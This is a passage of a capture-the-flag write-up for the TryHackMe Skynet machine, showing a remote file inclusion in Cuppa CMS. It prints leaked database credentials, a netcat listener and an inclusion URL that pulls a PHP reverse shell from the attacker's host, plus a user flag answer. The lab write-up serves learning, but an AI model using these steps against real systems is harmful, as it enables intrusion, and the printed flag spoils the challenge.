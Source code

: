 I then got an output!

![](<../../.gitbook/assets/image (180).png>)

If you decode the whole string using Base64, you get the following:

```c
<?php 
	class Configuration{
		public $host = "localhost";
		public $db = "cuppa";
		public $user = "root";
		public $password = "password123";
		public $table_prefix = "cu_";
		public $administrator_template = "default";
		public $list_limit = 25;
		public $token = "OBqIPqlFWf3X";
		public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
		public $upload_default_path = "media/uploadsFiles";
		public $maximum_file_size = "5242880";
		public $secure_login = 0;
		public $secure_login_value = "";
		public $secure_login_redirect = "";
	} 
?>
```

Here, we can see the username and password. I looked back at the nmap scan and realized that port 22 (SSH) is open. Maybe this is a password for that. It was not. After I was stuck for a while, I viewed the writeup [here,](https://medium.com/@shaifi.moazzem/try-hack-me-skynet-w-o-metasploit-f25561a0ff16) and realized that I have to access the file using the URL. For that, I found the php-reverse-shell file, and then edited the IP address and port number. I then ran two commands on two different terminals:

```c
python -m SimpleHTTPServer 80 //To serve the file to the Cuppa CMS
nc -lvnp 1234 //To get the reverse connection
```

I was able to get a reverse shell after visiting [http://10.10.224.214/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.2.54.229/hello.php](http://10.10.224.214/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.2.54.229/hello.php) (hello.php is what I renamed my php reverse shell to):

![](<../../.gitbook/assets/image (181).png>)

I was able to move around and find the user flag:

![](<../../.gitbook/assets/image (182).png>)

> What is the user flag? **7ce5c2109a40f958099283600a9ae807**

I then had the user file. I then had to get the root file. I referenced the same write-up mentioned above to see what they did for this. The author ends up using [https://gtfobins.github.io/gtfobins/tar/#shell](https://gtfobins.github.io/gtfobins/tar/#shell) in order to get a root shell. I was again lost, and ended up finding the write-up at this page, and they ran the following commands:
